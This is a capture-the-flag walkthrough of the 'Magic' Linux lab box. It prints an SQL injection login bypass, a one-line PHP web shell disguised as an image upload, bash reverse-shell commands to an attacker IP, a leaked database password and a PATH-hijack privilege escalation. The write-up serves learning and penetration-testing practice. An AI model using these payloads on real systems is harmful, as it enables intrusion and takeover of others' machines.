Magic is a Linux box featuring multiple exploitation techniques. Initial access requires bypassing authentication via SQL injection to reach an image upload functionality. The upload mechanism is exploited through Apache's SetHandler directive misconfiguration in .htaccess, enabling command injection and yielding a shell as the web user. Database credentials found in the application's configuration file provide access to MySQL, where theseus's credentials are extracted. Finally, privilege escalation to root is achieved through PATH injection targeting the fdisk command in the SUID binary sysinfo.


```
nmap -sC -sV 10.129.5.201
```

Basic Nmap scan shows that there are two ports open.


Based off this info, seems like we can only visit the webpage .

The websites shows a list of images, and also noted that there's a login page, requiring authentication for us to be able to upload images





I tried default credentials like admin:admin, or trying to get XSS reflected since the website is displaying output via javascript, but to no avail.


However, when you use quotations, there is no feedback from the site.


This is indicative of a SQL Injection.


A simple SQL injection login like this worked.
```
'OR 1=1 -- -
```


We are able to get to the uploads page


Uploaded an image


Going back to the homepage, I'll see my image being displayed.




**Getting webshell**


There were multiple approaches I've made to the file upload, as shown via login.php, we can see that this is a php hosted website. 

In the nmap scan shows this website Apache-based. There is a misconfiguration for apache, where you're allowed to execute php code as long as there's a .php appended to the filename via the SetHandler, which will be found in the .htaccess file later on in this writeup.


I have used burp suite to capture my upload request so that we can inject in a php GET parameter for command injection.

```
<?=`$_GET[0]`?>
```

Notice that I have appended the .php extension filename to Untitled.php.jpeg.
This is required so that apache will execute the php script.


Viewing the malicious file:


If I visit the page with this link below:
```
http://10.129.5.201/images/uploads/Untitled.php.jpeg?0=ls -la
```

There is command injection.



Now I will run a simple bash reverse shell command with url encoding:
```
http://10.129.5.201/images/uploads/Untitled.php.jpeg?0=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.63/4445+0>%261'
```


We get a connection back to our listener.



**Inspecting .htaccess**

SetHandler is an implementation behaviour by Apache, which tells the web server how files should be processed. In this case the handler is set to process as php for any files containing .php. This is a misconfiguration as the regex only checks if .php is a match in the file, but not at the end of the file, which allows us to process our image file as php



**Shell as theseus**



We see another user called theseus


Looking at db.php5 file, we see db credentials

```
theseus:iamkingtheseus
```



I will try to login as theseus with the DB credentials.
```
python3 -c "import pty;pty.spawn('/bin/bash')"
su - theseus
iamkingtheseus
```
 


Although the authentication failed, we can still try to look at the mysql db to see if there are any useful credentials.

We will also find out that mysql command does not exist in the machine which is rather peculiar.


There is an alternative to this where we can use mysqldump instead, which exists. However I am going to use Ligolo instead to connect to the mysql via my kali machine.

So I'll setup ligolo with these series of commmands:
```
**setup tunnel**
sudo ip tuntap add user geedorah mode tun ligolo
sudo ip link set ligolo up


**Run ligolo**
**Proxy**:
./proxy -selfcert  

**Agent**:
./agent_linux64 -connect 10.10.14.63:11601 -ignore-cert

session

**STart tunnel**
start

sudo ip route add 240.0.0.1/32 dev ligolo
```






Connecting to mysql on our kali machine
```
mysql -h 240.0.0.1 -u theseus -p --ssl=false
```



We are authenticated.

Through these series of mysql commands, we are able to retrieve a set of credentials.
```
show databases;
use Magic
show tables;
select * from login
```


If we reuse this password of admin to authenticate into theseus, it will succeed.





**Geting root in shell**

I haven't ran linpeas in this box yet, so ill run it for potential privilege escalation vectors.


Going through linpeas, in the SUID binary section we see
```
/bin/sysinfo
```



This is not a typical binary found, and is rather suspicious.

Running the binary shows exactly what it implies, information regarding the system.



I'll run  ltrace to see what's happening under the hood.
```
ltrace sysinfo
```

This particular segment is interesting,
```
popen("fdisk -l", "r") 
```

We see it trying to open the fdisk process without properly specifying the path. This means that we can possibly poison the PATH variable to include our fdisk, which will be  a reverse shell.



Setting up the reverse shell:
```
cd /tmp
echo -n "bash -c 'bash -i >& /dev/tcp/10.10.14.63/4446 0>&1'" > fdisk
chmod +x fdisk

export PATH=/tmp:$PATH

sysinfo

On our machine
nc -lnvp 4446
```

I am root.
